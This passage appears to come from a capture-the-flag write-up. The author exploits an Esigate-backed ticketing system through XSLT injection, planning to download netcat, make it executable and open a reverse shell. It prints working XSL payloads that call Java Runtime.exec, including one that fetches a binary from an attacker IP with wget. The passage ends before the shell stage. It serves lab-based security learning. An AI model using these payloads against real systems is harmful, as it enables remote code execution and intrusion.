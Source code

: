 ~~~
000000001:   200        0 L      2 W      80 Ch       "Tim"         
000000004:   200        0 L      2 W      80 Ch       "James"       
~~~
{: .language-bash}

# User

Moving on to check out the ticketing system i tested a few things, like raising new tickets and searching for old tickets, nothing interesting was found. I fired up Burp Suite and started checking the requests, in the response to a standard GET request i caught my eye on the header X-Powered-By.

![Esigate](https://jackhack.se/assets/images/quick/esigate.png)
{: .full}
A quick google search shows that there is a few [exploits](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) in Esigate leading to Remote Code Execution, in this case i will use XSLT injections. 

The exploitation phase will consist of three stages:

- Uploading a netcat binary
- Making the binary runable (chmod +x)
- Executing netcat to connect to my reverse shell listener

Therefore, i have to make 3 XML files and 3 XSL files, how ever the XML files can be empty but for some reason this web application want's unique filenames so i could not use the same empty XML file for all three requests.

**nc.xsl**
~~~
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.40/nc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
~~~

**chmod.xsl**
~~~
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod +x nc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

~~~